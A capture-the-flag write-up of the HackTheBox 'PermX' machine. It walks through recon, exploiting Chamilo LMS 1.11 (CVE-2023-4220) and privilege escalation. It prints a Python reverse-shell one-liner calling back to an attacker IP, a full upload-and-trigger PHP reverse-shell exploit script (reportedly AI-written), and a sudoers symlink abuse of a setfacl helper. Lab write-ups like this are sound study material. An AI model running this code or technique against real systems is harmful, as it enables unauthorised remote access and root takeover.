

### Initial State


### Recon

**Nmap**


Here is a result of nmap scan

2 ports are open

- port 22 ssh
- port 80 http

We can see there is domain name premx.htb. lets add it to the host file


no content. We need to brute force subdomain


I realize that, I have added domain name incorrectly

brute forcing subdomain


how do I filter out this


found 2 subdomain lets add both of them

Under the lms.permx.htb subdomain, there is login page 


what is **Chamilo**?


It is CMS (Content Management System)


here are the endpoint 


this web application runs outdated version of Chamilo which is 1.11


it is vulnerable to
[
Chamilo LMS 1.11.24 - Remote Code Execution (RCE)
](https://www.exploit-db.com/exploits/52083)

**How this explit works?**

It is based on the improper input validation in the platform’s file upload or administrative features, allowing an attacker to upload a malicious PHP file (RCE). Once uploaded, attacker can directly access and execute the PHP file/payload through webserver, gaining the ability to run system commands. 

Lets run the exploit 


got the web shell


I am not able to run plenty of command so better to upgrade the shell

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.29",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")’

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.29",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")’
```


running the above command in web shell didn’t work. I was stuck here for a moment. then an idea came in my head. instead of [rce.sh](http://rce.sh) file I can upload reverse shell file. So I asked ai to write code for me. 

```bash
import requests
import argparse
from urllib.parse import urljoin

def upload_reverse_shell(target_url, payload_name, attacker_ip, attacker_port):
    upload_url = urljoin(target_url, "main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported")
    shell_path = f"/main/inc/lib/javascript/bigupload/files/{payload_name}"
    shell_url = urljoin(target_url, shell_path)

    # PHP reverse shell payload
    php_reverse_shell = f"""<?php
$ip = '{attacker_ip}';
$port = {attacker_port};
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>"""

    files = {'bigUploadFile': (payload_name, php_reverse_shell, 'application/x-php')}

    print("[*] Uploading reverse shell...")
    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        print("[+] File uploaded successfully!")
        print(f"[+] Trigger the shell at: {shell_url}")
        print("[!] Make sure your netcat listener is running before triggering the URL!")
    else:
        print("[-] File upload failed.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2023-4220 Chamilo LMS Reverse Shell Exploit")
    parser.add_argument('target_url', help="Base URL of the Chamilo LMS (e.g., http://target.com/)")
    parser.add_argument('attacker_ip', help="Your IP address to receive the reverse shell")
    parser.add_argument('attacker_port', type=int, help="Your port to receive the reverse shell")
    parser.add_argument('--shell', default='reverse.php', help="Filename for the uploaded shell (default: reverse.php)")

    args = parser.parse_args()

    upload_reverse_shell(args.target_url, args.shell, args.attacker_ip, args.attacker_port)
```

Let’s run this.before that I have netcat listener on


file uploaded successfully


got the shell

inside the config there is configuration file where there is db_password: “03F6lY3uXAP2bkW8”


```bash
mysql -u debian-sys-maint -p 03F6lY3uXAP2bkW8
```

I tried connecting to mysql but failed.

So thought of linpeas. I transfer linpeas in zip because in some directory current user do not have     write permission.


some jobs are running 


amm, I wasted this whole time. The db_password was user mtz’s password. I was struggling to connect to database using the password that I found. 


### Privilege Escalation


User mtz can run this file without password 

```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

**what this code does?**

this script uses sudo setfacl to give arbitrary users access to arbitrary files:

- its a file (not directory)
- it should be under user mtz
- it should not contain .. in file path

### Privilege Escalation

**How we can misuse this feature?**

symlink?
we can create one file which will act as shortcut(symlink) to permission file (sudoer) giving write, read and execute privilege. or we can point symlink file to shadow file where it contain hash for all the user.


first create symlink sudoers


since the sudoers file is present in the /home/mtz directory we can give permission to the user mtz  with read, write and execute privilege to sudoers file. To edit the sudoers file nano command was not working for me, I have no idea why. So I used vim to edit the sudoers file. 


change it to /bin/bash  user mtz can execute bash command on his terminal. without needing passowrd. 


### Learning

There is nothing much to learn but still the it shows us how the chamilo 1.11.24 exploit works and taking advantages of the privileged file  /etc/acl/sh file which is ther to give other file privilege under mtz directory.

### Reference

[
Chamilo LMS 1.11.24 - Remote Code Execution (RCE)
](https://www.exploit-db.com/exploits/52083)

[HackTheBox - PermX](https://youtu.be/2TqmHL4pcUo?si=ya8q4sabOvmwJ2Wx)

[HTB: Permx Writeup / Walkthrough](https://medium.com/@pk2212/htb-permx-writeup-walkthrough-df745737713b)

[HTB Permx Write-up](https://anans1.medium.com/htb-permx-write-up-0fc8cfbabdd7)